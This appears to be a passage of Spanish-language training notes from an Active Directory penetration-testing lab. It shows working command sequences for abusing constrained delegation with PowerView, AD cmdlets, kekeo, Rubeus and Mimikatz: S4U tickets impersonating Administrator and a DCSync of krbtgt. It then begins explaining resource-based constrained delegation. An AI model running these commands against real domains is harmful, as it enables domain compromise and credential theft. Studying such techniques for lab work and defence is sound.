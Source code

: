 Usando PowerView:

`Set-DomainObject -Identity devuser -Set @{serviceprincipalname='dev/svc'}
Set-DomainObject -Identity devuser -Set @{"msds-allowedtodelegateto"="ldap/usdc.us.techcorp.local"}
Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}
Get-DomainUser –TrustedToAuth`

Usando AD:

`Set-ADUser -Identity devuser -ServicePrincipalNames @{Add='dev/svc'} 
Set-ADUser -Identity devuser -Add @{'msDS-AllowedToDelegateTo'= @('ldap/usdc'
,
'ldap/us-dc.us.techcorp.local')} -Verbose 
Set-ADAccountControl -Identity devuser -TrustedToAuthForDelegation $true 
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDSAllowedToDelegateTo`

Usando kekeo:

`kekeo# tgt::ask /user:devuser /domain:us.techcorp.local
/password:Password@123!`
`kekeo# tgs::s4u
/tgt:TGT_devuser@us.techcorp.local_krbtgt~us.techcorp.local@us.techc
orp.local.kirbi /user:Administrator@us.techcorp.local
/service:ldap/us-dc.us.techcorp.local`
`Invoke-Mimikatz -Command '"kerberos::ptt
TGS_Administrator@us.techcorp.local@us.techcorp.local_ldap~usdc.us.techcorp.local@us.techcorp.local.kirbi"'`
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'`

Usando Rubeus:

`Rubeus.exe hash /password:Password@123! /user:devuser /domain:us.techcorp.local`

`Rubeus.exe s4u /user:devuser /rc4:539259E25A0361EC4A227DD9894719F6
/impersonateuser:administrator /msdsspn:ldap/us-dc.us.techcorp.local
/domain:us.techcorp.local /ptt`

`C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"`

Privilege Escalation – Resource-based Constrained Delegation

- Esto traslada la autoridad de delegación al administrador de recursos / servicios.
- En lugar de SPN en msDs-allowedToDelegatTo en el servicio de front-end como el servicio web, el acceso en este caso está controlado por el descriptor de seguridad de msDS AllowToActOnBehalfOfOtherIdentity (visible como
PrincipalsAllowedToDelegateToAccount) en el recurso / servicio como el servicio SQL Server.
- Es decir, el administrador de recursos / servicios puede configurar esta delegación, mientras que para otros tipos, se requieren privilegios SeEnableDelegation que, de forma predeterminada, están disponibles solo para administradores de dominio.
- Para abusar de RBCD de la forma más eficaz, solo necesitamos dos privilegios.
- Uno, control sobre un objeto que tiene SPN configurado (como admin
acceso a una máquina unida a un dominio o capacidad para unirse a una máquina para
dominio: ms-DS-MachineAccountQuota es 10 para todos los usuarios del dominio)
- Dos, permisos de escritura sobre el servicio u objeto de destino para configurar
msDS-AllowToActOnBehalfOfOtherIdentity.
- Ya tenemos acceso a una máquina unida a un dominio.
- Vamos a enumerar si tenemos permisos de escritura sobre cualquier objeto.
